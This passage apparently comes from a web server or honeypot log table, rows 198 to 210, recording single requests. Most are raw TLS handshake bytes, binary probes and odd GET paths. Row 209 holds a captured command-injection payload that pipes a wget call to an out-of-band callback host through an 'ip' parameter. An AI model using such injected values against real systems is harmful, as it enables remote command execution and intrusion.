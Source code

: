 | 198 |                     1 | GET /static/admin/javascript/hetong.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                  |
| 199 |                     1 | \x80\x00\x00(\xCA\xFE\xCA\xFE\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x1B9\x00\x00\x00\x01\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00                                                                                                                                                                                                                                       |
| 200 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\x86\xED\x95\x972\x86\xB0-\x01x\xFDh[*h\xB4\xCD^\x89;\xE4\x10\x87\x04\x8Ab\xDE\x87z\xC0\x93\x9D 8\xF9\x0E\x82\x93\xC0\x02\xBF\x98\x9A&V\xB0\xDA2T/\x8A\xC63\xACD:\xA9d\xAF\xD4TE\xEE\x03                                                                                                                                                                             |
| 201 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\x141d\xE3\xD4%\xD9\xA9\x8A>\x87D\xC7\x01t\xD28X\x85\x84s\xB0(0\xBE\xE9R\xB0\xAB+s\x1D \x10~\x92EK\x96\x93\xBB\x18\xF6\x07\xE7+\x88\xA29%\x90\x04j\xEDB\x0F\xDEM\x0B\xB2A^\x06\xD5\xF7\x00&\xCC\xA8\xCC\xA9\xC0/\xC00\xC0+\xC0,\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                          |
| 202 |                     1 | \x01                                                                                                                                                                                                                                                                                                                                                                                                             |
| 203 |                     1 | \x02lp                                                                                                                                                                                                                                                                                                                                                                                                           |
| 204 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03H\xC7.\xB0\x10k\x93!\x9C\x1CFb\xFD\xB2\xA8\x22\xBAZ\x8E\x949\xFBn\xA2U\x81/\xE5\xC5\x9B\xA6\xFE \x14\x1C\x88\xDA\x7F\xEDu\xDBOue\x9Cc\x99\xC7*(uL\xC6\xE0\x03\x86\x85f\xA6a\x01|\xBF\xD2\xA5\x00&\xCC\xA8\xCC\xA9\xC0/\xC00\xC0+\xC0,\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                    |
| 205 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03(n\x12\x97\xC2b2\xC7<\xCEL\x18\xD1z(\xE9\xBC\x84\xE4\x82'\xED\x999\x00\xB9\xC9\xDB\xDA[\xA0\xA0 \xF2^\x1D\x8A\x8E;\xA0\xAA\xFB}\xC6u\xC8&\xAC\xC5\x8B\x15&\xBF&\xC3\xEC\x88B?[\xF5\x8D[8;\x00&\xCC\xA8\xCC\xA9\xC0/\xC00\xC0+\xC0,\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                       |
| 206 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x1FP8\x80\x9F\x86\x07+O\xC4\x95\xDF[\xE0-4\xB7aj\x95M\xA7\x97\xF8\x12<\x8E\x8D;=\xDER\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                   |
| 207 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03qS\x1C\xCF\x86\xC8\xE9\x8FG$X\x1D\x01\x9D\x1A$A\xAA\x02\x19\xCAoY9\xA7\xA4Z\x8Ap\xE1\xA7-\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                |
| 208 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x031\xD4\x10\xAC\x8E||~~Q\xCC|B                                                                                                                                                                                                                                                                                                                                               |
| 209 |                     1 | mac=1&ip=127.0.0.1|wget cufanednlodcre1u5ht05e4bdkahyuxpm.oast.site                                                                                                                                                                                                                                                                                                                                              |
| 210 |                     1 | GET /users/users/users/favicon.ico HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                      |